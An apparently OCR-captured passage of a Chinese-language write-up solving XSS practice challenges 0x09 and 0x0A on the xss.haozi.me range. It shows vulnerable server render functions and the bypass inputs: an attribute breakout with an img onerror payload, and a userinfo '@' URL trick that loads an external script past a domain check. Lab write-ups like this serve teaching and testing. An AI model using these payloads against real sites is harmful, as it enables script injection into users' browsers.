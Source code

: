 ##### 0x09

```javascript
// server code
function render (input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}
```

```javascript
// input code
http://www.segmentfault.com" ></script><img src=x onerror=alert(1)>

// 匹配输入的是否存在"http://www.segmentfault.com"
```

##### 0x0A

```javascript
// server code
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f')
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`
  }
  return 'Invalid URL'
}
```

```javascript
// input code
https://www.segmentfault.com@xss.haozi.me/j.js

// 这里引入一个靶场自身站点下的js文件（多次尝试无果，最后使用的火狐浏览器）
```

注解：

chrome浏览器因为弃用了一些@嵌入式的一些请求，所以使用了火狐浏览器做这道题。
